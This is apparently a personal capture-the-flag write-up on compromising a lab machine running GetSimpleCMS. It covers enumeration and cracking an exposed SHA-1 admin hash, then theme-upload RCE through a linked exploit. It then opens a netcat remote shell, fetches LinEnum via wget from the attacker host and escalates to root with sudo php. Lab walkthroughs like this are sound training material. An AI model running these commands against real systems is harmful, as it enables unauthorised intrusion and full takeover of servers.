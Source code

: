 # GetSimpleCMS Box Write-Up
**Date:** `2025-05-16`

**Target IP:** `10.10.10.123`  

---

## Enumeration
I was given an IP address, and the goal was to find a root.txt file.

I begun enumeration through simple scans using whatweb as nmap to see where I should start first. 

1. **Nmap scan**  
```bash
nmap -sC -sV -oA nmap/initial 10.10.10.123
```
- Discovered ports 80 (HTTP) and 22 this lead to me thinking it's a web application I should be exploiting. So I ran a gobuster scan to see what I could do.

2. **Web-app Discovery (Gobuster)**
```bash 
gobuster dir \
  -u http://10.10.10.123/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html,txt,bak \
  -o gobuster/root.txt

gobuster dir \
  -u http://10.10.10.123/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html \
  -o gobuster/admin.txt
```
- Found /admin/
    - Led to a page where I could log in, but had to find the credentials. After doing more dirbuster scans to find subdirectories, I found /data/users.xml and it contained the following.
```xml
<user>
  <username>admin</username>
  <password>d033e22ae348aeb5660fc2140aec35850c4da997</password>
</user>
```
I knew that password was hashed, so I cracked the hash after discovering it was SHA-1. I used the following.
```bash
echo 'd033e22ae348aeb5660fc2140aec35850c4da997' | \
  hashcat -m 100 -a 0 rockyou.txt
# or simply recognize it’s SHA-1("admin")
```
After realizing the hash turned out to be admin, I went to try the login on the /admin/ on firefox and it was successful!

The next step was to work on site-mapping and finding the most obvious place to search for vulnerabilities. Working through portswigger labs helped me identify a flaw I could exploit under a "Theme" upload feature. I also googled common CVE related to GetSimpleCMS 3.3.15, and found that there was a vulnerability relating to the .php in themes, so my assumption was right. Doing more research, I found this github that allowed for a RCE. 

https://github.com/cybersecaware/GetSimpleCMS-RCE/tree/main

After cloning the git, it prompted for the server url, along with the command I wanted to run. 

```bash
# On the “server” side
busybox nc -l -p 9001 -e /bin/sh
```
I set this up to spawn a shell from the exploit.py file,
and on my local machine i ran

```bash
# On your machine
busybox nc (myip) 9001
```
And I was able to set up RCE. on the server. Using whoami, I found out I had basic permissions so I had to find a way to escalate.

I ran LinEnum.sh, and discovered there was possible sudo pwnage through /usr/bin/php.
```bash
wget http://10.10.14.5/linenum.sh
chmod +x linenum.sh
./linenum.sh | tee linenum.log
```

LinEnum revealed /usr/bin/php is sudo-able by www-data without password.
To spawn the root shell I used

```bash
CMD="/bin/sh"
sudo /usr/bin/php -r "system('$CMD');"
```
After running these commands, I found out whoami -> root. So it was a successful. The last thing to do was to find the root.txt and submit the flag.

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

## Lessons Learned
- Virtual hosts may require correct Host: headers; use /etc/hosts or curl -H to target the right site

- Plugin/theme upload features often introduce RCE; always check CVE databases

- Sudo misconfigurations (e.g. allowing PHP) are common privilege-escalation paths; check sudo -l early